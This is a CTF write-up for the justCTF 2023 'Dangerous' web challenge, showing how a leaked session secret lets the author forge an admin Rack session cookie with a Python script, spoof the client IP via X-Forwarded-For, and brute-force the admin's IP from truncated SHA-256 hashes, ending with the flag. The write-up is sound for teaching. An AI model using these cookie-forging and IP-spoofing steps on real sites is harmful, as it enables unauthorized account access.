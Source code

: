 ```yaml
---
layout: post
title: justCTF 2023 Dangerous (Web) Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[justCTF 2023 Dangerous (Web)](https://2023.justctf.team/challenges/18)  
[Event on CTFtime](https://ctftime.org/event/1930)

## Challenge Description

> My friend told me there's a secret page on this forum, but it's only for administrators.

A link to the challenge and downloadable of the source code are provided.

## A First Look

The web app is a forum, with two threads posted.

![Homepage](/assets/image/justctf-2023-web-dangerous-writeup/homepage.png)

Viewing one of the threads, it can be seen that the username of admin is `janitor`.

![Thread 1](/assets/image/justctf-2023-web-dangerous-writeup/thread-1.png)

The web app is written in Ruby.

The `/flag` endpoint and `is_allowed_ip` function is especially interesting:

```ruby
get "/flag" do
  if !session[:username] then
    erb :login
  elsif !is_allowed_ip(session[:username], request.ip, config) then
    return [403, "You are connecting from untrusted IP!"]
  else
    return config["flag"] 
  end
end

def is_allowed_ip(username, ip, config)
  return config["mods"].any? {
    |mod| mod["username"] == username and mod["allowed_ip"] == ip
  }
end
```

It checks the if the user logged in is a moderator and if the IP address is the allowed IP address in a config file.

## Craft Admin Cookie

When clicking on "New Thread" without filling in anything, the website shows an error page with backtrace and environment information. The session secret as well as how the session cookie is encoded is revealed.

![Session options](/assets/image/justctf-2023-web-dangerous-writeup/session-options.png)

The session is implemented with Rack Protection. With some research into the [source code](https://github.com/sinatra/sinatra/blob/5f4dde19719505989905782a61a19c545df7f9f9/rack-protection/lib/rack/protection/encryptor.rb#L19), and from environment info, it can be seen that the session cookie is encoded and encrypted as follows:

1. The data is first serialised with Marshal
2. It is then encrypted with AES-256-GCM with the first 32 bytes of the session secret as the key
3. The encrypted data, IV and authentication tag are then encoded with URL-safe base64
4. The encrypted data, IV and authentication tag are then concatenated with a `--` delimiter

My script to modify the session cookie into an admin cookie is as follows:

```python
import base64
import urllib.parse
import rubymarshal.reader, rubymarshal.writer
from Crypto.Cipher import AES

secret = bytes.fromhex('[secret hex string]')
cookie = '[original cookie]'
ct, iv, auth = cookie.split('--')
ct, iv, auth = map(urllib.parse.unquote, [ct, iv, auth])
ct, iv, auth = map(base64.b64decode, [ct, iv, auth])
cipher = AES.new(secret[:32], AES.MODE_GCM, iv)
dec = cipher.decrypt(ct)
d = rubymarshal.reader.loads(dec)

d['username'] = 'janitor'
m = rubymarshal.writer.writes(d)
cipher = AES.new(secret[:32], AES.MODE_GCM, iv)  # I just reuse the original IV
ct, auth = cipher.encrypt_and_digest(m)
ct, iv, auth = map(base64.b64encode, [ct, iv, auth])
ct, iv, auth = map(urllib.parse.quote, [ct, iv, auth])
cookie = f'{ct}--{iv}--{auth}'
print(cookie)
```

## Bypass IP Restriction

With the admin cookie, the `/flag` endpoint now does not prompt to login, but instead shows a 403 error page with message "You are connecting from untrusted IP!".

### Spoof the IP Address

In `nginx.conf`, it can be seen that the `REMOTE_ADDR` header is set to localhost with the following:

```nginx
proxy_set_header REMOTE_ADDR localhost;
```

Research on how the app gets `request.ip`, found in this [Stack Overflow answer](https://stackoverflow.com/a/43014286), that if the `REMOTE_ADDR` is in reserved private subnet ranges, it will instead use the `X-Forwarded-For` header, thus the IP address can be spoofed with `X-Forwarded-For`.

### Find the Allowed IP Address

However, the allowed IP address is still unknown. Looking at the source code, the user colour uses in each thread uses the first 6 characters of the hex value of SHA-256 of the IP address and thread ID concatenated together.

```erb
<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
```

In the above code, `reply[2]` is the IP address of the user who posted the reply, and `@id` is the thread ID.

Both of thread 1 and thread 2 have a reply from the admin, so the IP address can be found by brute forcing to find the IP address that produces the matching hashes for both threads.

```python
from Crypto.Hash import SHA256
from multiprocessing import Pool
target = '32cae2'
thread = 1
def brute(a):
    for b in range(256):
        for c in range(256):
            for d in range(256):
                ip = f'{a}.{b}.{c}.{d}'
                x = ip + str(thread)
                h = SHA256.new(x.encode()).hexdigest()[:6]
                if h == target:
                    print(f'{a}.{b}.{c}.{d}', flush=True)
if __name__ == '__main__':
    with Pool(8) as p:
        p.map(brute, range(256))
```

Putting everything together, the flag is:

```
justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}
```

## Additional Notes

Rack Protection tracks user agent, and if the user agent is changed, the session cookie will be invalidated. Either the user agent must be spoofed, or the session cookie must be regenerated.
